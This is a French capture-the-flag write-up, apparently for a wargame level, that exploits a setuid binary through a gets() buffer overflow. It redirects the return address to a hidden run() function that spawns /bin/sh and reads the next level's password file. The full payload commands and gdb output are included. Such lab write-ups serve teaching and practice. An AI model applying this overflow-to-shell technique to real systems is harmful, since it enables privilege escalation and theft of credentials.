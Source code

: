 ## Comportement
- J'ai des droits `level1` que je peux verifier en tapant `whoami`
- Un binaire est present avec des droits differents : `-rwsr-s---+ 1 level2 users  5138 Mar  6  2016 level1*`
En exécutant le binaire (`./level1`), on observe:
- qu'il attend un input de notre part.
- qu'il exit juste apres notre input.
- qu'il segfault `Segmentation fault (core dumped)` si l'input est trop long.

→ Peut-être un segfault à exploiter ?


## Analyse
En analysant le binaire (`gdb ./level1`) on observe:
- La fonction appelle "gets" qui n'est pas securisé en cas de buffer overrun (voir `man gets`).
  ```shell
  (gdb) disas main
  ...
  0x08048490 <+16>:	call   0x8048340 <gets@plt>
  ...
  ```
- Il existe une fonction `run()` qui n'est pas appelé dans `main()` : 
  ```shell
  (gdb) i functions
  ...
  0x08048444  run
  0x08048480  main
  ...
  ```
- Dans la fonction `run()` il y a un appel systeme : 
  ```shell
  (gdb) disas main
  ...
  0x08048472 <+46>:	movl   $0x8048584,(%esp) # argument envoye a la fonction system() en dessous
  0x08048479 <+53>:	call   0x8048360 <system@plt>
  ...
  ```
- Il suffit d'examiner l'adresse du parametre envoye a la fonction `system()` 
(situe une ligne au dessus) pour constater qu'on execute `/bin/sh`. 
Ce qui est une technique courante pour lancer un shell interactif. 
  ```shell
  (gdb) x/s 0x8048584
  0x8048584:	 "/bin/sh"
  ```
- Il faudrait une commande `call` dans la fonction `main()` pour que l'on puisse facilement l'overflow avec 
l'adresse de `run()` mais il n'y en a pas. Par contre en fin de fonction il y a toujours la commande `ret` : 
elle retourne a l'adresse precise ou le programme se trouvait avant d'executer la fonction en question 
(c'est l'`ebp` precedent ("old ebp") qui est push sur la stack a la toute premiere instruction de chaque fonction) : 
  ```shell
  (gdb) disas main
  ...
  0x08048480 <+0>:	push   %ebp # ebp push sur la stack
  0x08048481 <+1>:	mov    %esp,%ebp # ebp remplace par esp
  ...
  0x08048495 <+21>:	leave  # esp remplace par ebp + pop ebp hors de la stack
  0x08048496 <+22>:	ret # renvoi vers ebp
  ...
  ```

## Résolution
- Il faut donc overflow la valeur de l'`ebp` avec l'adresse de la fonction `run()` pour que quand la 
commande `ret()` sera execute, c'est `run()` qui sera appelee et donc notre appel systeme sera execute
ouvrant ainsi un shell interactif.
- Il faut trouver l'offset de l'`eip` (le pointeur deu jeu d'instruction en cours) pour savoir de 
combien il faut overflow le buffer. Dans `main()` on a vu que le buffer est de 80 bytes. 
(`0x08048486 <+6>:		sub    esp,0x50`). On obtient bien un segfault : 
```shell
$ python -c 'print "A" * 80' | ./level1
Segmentation fault (core dumped)
```
- Maintenant il faut gerer le padding, c'est a dire soustraire suffisament de bytes pour placer l'adresse 
de la fonction `run()` (`0x08048444`) que l'on veut inserer. Elle prend 4 bytes. On obtient encore un 
segfault, cette fois ce n'est pas normal car `run()` aurait du etre appele. 
```shell
$ python -c 'print "A" * 76 + "\x08\x04\x84\x44"' | ./level1
Segmentation fault (core dumped)
```
- En regardant bien la stack, on voit que l'adresse est inscrite en little endian, il faut donc l'inverser.
La fonction `run()` ets bien appele ! On le voit grace au print "Good... Wait what?" mais ou est le shell ? 
```shell
$ python -c 'print "A" * 76 + "\x44\x84\x04\x08"' | ./level1
Good... Wait what?
Segmentation fault (core dumped)
```
- Le shell exit car son process parent exit. Du coup il faut modifier le code pour fait un cat du mot
de passe avant que le shell ne se ferme. Cela donne : 
```shell
$ (python -c 'print "A" * 76 + "\x44\x84\x04\x08"'; echo "cat /home/user/level2/.pass") | ./level1
Good... Wait what?
53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
Segmentation fault (core dumped)
```

Il ne reste plus qu'à :
- et passer au level1 (`su level1`) en renseignant le password obtenu plus haut.


